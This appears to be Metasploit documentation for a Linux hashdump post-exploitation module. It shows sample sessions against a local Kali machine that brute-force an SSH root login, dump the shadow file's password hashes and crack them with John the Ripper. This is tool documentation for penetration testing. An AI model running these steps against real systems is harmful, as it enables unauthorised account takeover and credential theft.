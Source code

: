 ## Verification Steps

  1. Start msfconsole
  2. Get a session via exploit of your choice
  3. Do: `use post/linux/gather/hashdump`
  4. Do: `set session <session>`
  5. Do: `run`
  6. You should see the contents of the shadow file

## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions -l`

## Scenarios

### Obtain Hashes

  Typical run against Kali, using ssh_login for initial shell

```
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(ssh_login) > set username root
username => root
msf auxiliary(ssh_login) > set password "test"
password => example_password
msf auxiliary(ssh_login) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf auxiliary(ssh_login) > exploit

[*] SSH - Starting bruteforce
[-] SSH - Could not connect: The connection was refused by the remote host (127.0.0.1:22).
[!] No active DB -- Credential data will not be saved!
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ssh_login) > exploit

[*] SSH - Starting bruteforce
[+] SSH - Success: 'root:test' 'uid=0(root) gid=0(root) groups=0(root) Linux k 4.6.0-kali1-amd64 #1 SMP Debian 4.6.4-1kali1 (2016-07-21) x86_64 GNU/Linux '
[!] No active DB -- Credential data will not be saved!
[*] Command shell session 1 opened (127.0.0.1:41521 -> 127.0.0.1:22) at 2016-09-14 00:12:36 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ssh_login) > use post/linux/gather/hashdump 
msf post(hashdump) > set session 1
session => 1
msf post(hashdump) > exploit

[+] root:$6$eMImGFXb$3eYV4g315Qf2NA1aQ72yMwnM68PapXfCoP74kAb5vmQoqOz7sDTJQEMPUNNjZSEz.E4tXebqvt2iR3W50L8NX.:0:0:root:/root:/bin/bash
[+] test:$6$gsSmzVTM$vxnEAvs2jEhuFtq0yzgCm.p49RmirvyI6HvPXgbLZCtg1sLp5Q2U82U6Gv6i5hz/pcsz882rnLRAyIL24h3/N.:1000:1000:test,,,:/home/test:/bin/bash
[+] Unshadowed Password File: /root/.msf4/loot/20160914003144_default_127.0.0.1_linux.hashes_080983.txt
[*] Post module execution completed
  ```

  This module only works when you are root or have root permissions.  If you only have user permission, expect feedback:

  ```
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(ssh_login) > set username test
username => test
msf auxiliary(ssh_login) > set password test
password => test
msf auxiliary(ssh_login) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf auxiliary(ssh_login) > exploit

[*] SSH - Starting bruteforce
[+] SSH - Success: 'test:test' 'uid=1000(test) gid=1000(test) groups=1000(test) Linux k 4.6.0-kali1-amd64 #1 SMP Debian 4.6.4-1kali1 (2016-07-21) x86_64 GNU/Linux '
[!] No active DB -- Credential data will not be saved!
[*] Command shell session 1 opened (127.0.0.1:44823 -> 127.0.0.1:22) at 2016-09-14 00:24:17 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ssh_login) > use post/linux/gather/hashdump
msf post(hashdump) > set session 1
session => 1
msf post(hashdump) > exploit

[-] You must run this module as root!
[*] Post module execution completed
  ```
  ### Crack Hashes (John the Ripper)
  
The stored file can then have a password cracker used against it.  In this scenario, we'll use john (the ripper).
```
root@k:/git/metasploit-framework# john /root/.msf4/loot/20160914003144_default_127.0.0.1_linux.hashes_080983.txt
Warning: detected hash type "sha512crypt", but the string is also recognized as "crypt"
Use the "--format=crypt" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Press 'q' or Ctrl-C to abort, almost any other key for status
test             (test)
test             (root)
2g 0:00:00:00 DONE 1/3 (2016-09-14 00:32) 40.00g/s 460.0p/s 480.0c/s 480.0C/s test..oo
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```